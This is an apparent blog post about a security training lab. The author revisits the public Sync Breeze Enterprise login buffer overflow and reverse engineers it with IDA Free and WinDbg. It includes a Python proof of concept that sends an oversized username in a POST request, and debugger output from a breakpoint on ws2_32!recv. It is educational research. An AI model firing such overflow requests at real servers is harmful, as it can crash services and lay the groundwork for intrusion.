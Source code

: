 # Sync Breeze Revisited

At the time of writing I am studying Offensive Security Windows User Mode Exploit Development (EXP-301). I completed the Offensive Security Certified Expert (OSCE) a few years ago and really enjoyed it. However, I am finding that EXP-301 goes in to much more depth than the OSCE. That is probably because the new OSCE<sup>3</sup> is split into three areas that were covered in the single Cracking the Perimeter course of old.

I have started studying the reverse engineering section in the course and I am finding it very interesting if hard going. Firstly, `Ghidra` is not permitted on the exam, which means I have to learn how to use `IDA Free` and reverse engineering is a slow process to me anyway. Whilst the course content is good I felt I needed a bit more practice reversing Windows PE files.

A quick Google led me to this great blog page: [Vulnserver Redux 1: Reverse Engineering TRUN](https://www.purpl3f0xsecur1ty.tech/2021/05/26/trun_re.html) by Purpl3 F0x Secur1ty, I used this as a starting point and attempted to reverse engineer the PE file, using the blog when I got lost, which thankfully wasn't too often.

I decided that I would revisit the Sync-Breeze buffer overflow vulnerability introduced in the first chapter of the course, but this time I would attempt to reverse engineer it, rather than fuzz it. The public vulnerability is [here](https://www.exploit-db.com/exploits/42928).

## Goal

The goal of this exercise was for me to get better at reverse engineering using `IDA Free` and `WinDbg` and hopefully it will help anybody reading this too, and it may even help people understand stack based buffer overflow vulnerabilities at a lower level.

## The Proof of Concept

I started with a similar Proof of Concept, but I reduced the size of the payload to test against the username field. The exploit will be written in `Python` because that's what all exploits are written in duh!

```python
import socket, sys

server = sys.argv[1]
port = 80
size = 100

payload = b"A" * size
content = b"username=" + payload + b"&password=A"

buffer =  b"POST /login HTTP/1.1\r\n"
buffer += b"Host: " + server.encode() + b"\r\n"
buffer += b"User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0\r\n"
buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
buffer += b"Referer: http://192.168.211.149/login\r\n"
buffer += b"Connection: close\r\n"
buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
buffer += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
buffer += b"\r\n"
buffer += content

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    print("Done!")
except socket.error:
    print("Unable to connect!")
```

## Hooking the RECV function

I attached `WinDbg` to the `syncbrs.exe` process and issued the `lm` command to view the loaded modules:

```
0:007> lm
start    end        module name
...       
772f0000 77353000   WS2_32     (deferred)    
```

I configured a breakpoint on the `ws2_32!recv` function:

```
0:007> bp ws2_32!recv
```

I ran the PoC, and the breakpoint was hit. This is the starting point for reversing the username field. At this point I have no idea how long or difficult this is going to be... Eyes down for a full house!

```
Breakpoint 0 hit
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libpal.dll
eax=00000448 ebx=00fceee8 ecx=011745d8 edx=0063d744 esi=0063cf5c edi=00002800
eip=773023a0 esp=0063cf20 ebp=0063d744 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
WS2_32!recv:
773023a0 8bff            mov     edi,edi
```
